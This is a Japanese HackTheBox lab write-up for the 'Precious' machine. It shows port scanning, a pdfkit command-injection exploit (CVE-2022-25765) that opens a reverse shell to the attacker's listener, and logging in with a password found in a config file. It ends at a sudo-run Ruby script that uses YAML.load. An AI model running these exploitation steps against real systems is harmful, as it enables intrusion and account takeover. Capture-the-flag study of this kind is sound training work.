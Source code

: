 ## STEP 1
```sh
└─$ rustscan -a 10.129.228.98 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I don't always scan ports, but when I do, I prefer RustScan.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.228.98:22
Open 10.129.228.98:80
10.129.228.98 -> [22,80]
```


## STEP 2
80番にアクセス、「precious.htb」にリダイレクトされたので名前解決できない  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_01.png" width="50%" height="50%">  
hostsを編集
```sh
└─$ echo '10.129.228.98 precious.htb' | sudo tee -a /etc/hosts
```
アクセスできた、urlを入力できるっぽい  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_02.png" width="50%" height="50%">  
試しに「hxxp://127.0.0.1」を入力したらエラーが出た  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_03.png" width="50%" height="50%">  
今度はkaliでpythonでwebサーバをたてて確認させる
```sh
└─$ python3.13 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
pdfが自動でダウンロードされた、実際にkaliでたてたwebサーバのキャプチャになっている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Precious_04.png" width="75%" height="75%">  
ダウンロードされたpdfの情報を確認すると、pdfkitで作成されているっぽい
```sh
└─$ exiftool Downloads/muzjrzs750ms8sopaxtjok1iojlb19li.pdf 
ExifTool Version Number         : 13.25
File Name                       : muzjrzs750ms8sopaxtjok1iojlb19li.pdf
Directory                       : Downloads
File Size                       : 38 kB
File Modification Date/Time     : 2025:07:02 08:40:05-04:00
File Access Date/Time           : 2025:07:02 08:40:05-04:00
File Inode Change Date/Time     : 2025:07:02 08:40:05-04:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 2
Creator                         : Generated by pdfkit v0.8.6
```
pdfkit v8.0.6 には、CVE-2022-25765のrceの脆弱性があるらしい  
[PoC](https://github.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765)でエクスプロイト
```sh
└─$ wget https://raw.githubusercontent.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765/refs/heads/main/CVE-2022-25765.py
--2025-07-02 08:53:48--  https://raw.githubusercontent.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765/refs/heads/main/CVE-2022-25765.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.110.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1582 (1.5K) [text/plain]
Saving to: ‘CVE-2022-25765.py’

CVE-2022-25765.py                                          100%[========================================================================================================================================>]   1.54K  --.-KB/s    in 0s      

2025-07-02 08:53:49 (38.4 MB/s) - ‘CVE-2022-25765.py’ saved [1582/1582]


└─$ python3.13 CVE-2022-25765.py -t http://precious.htb -a 10.10.16.4 -p 4444
[*] Input target address is http://precious.htb
[*] Input address for reverse connect is 10.10.16.4
[*] Input port is 4444
[!] Run the shell... Press Ctrl+C after successful connection
^CTraceback (most recent call last):
```
リバースシェル取得！がユーザフラグすら権限拒否
```sh
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.228.98] 44794
bash: cannot set terminal process group (677): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)


ruby@precious:/var/www/pdfapp$ cat /home/henry/user.txt
cat /home/henry/user.txt
cat: /home/henry/user.txt: Permission denied
```


## STEP 3
謎のconfigファイルにhenryのパスワードらしいものを発見  
henryにログイン成功！ユーザフラグゲット！
```sh
ruby@precious:/var/www/pdfapp$ cat /home/ruby/.bundle/config
cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"


ruby@precious:/var/www/pdfapp$ su henry
su henry
Password: Q3c1AqGHtoI0aXAYFH

henry@precious:/var/www/pdfapp$


henry@precious:/var/www/pdfapp$ cat /home/henry/user.txt
cat /home/henry/user.txt
e3948152e2e4cd28f2c967ffcc412a53
```


## STEP 4
```sh
henry@precious:/var/www/pdfapp$ sudo -l
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
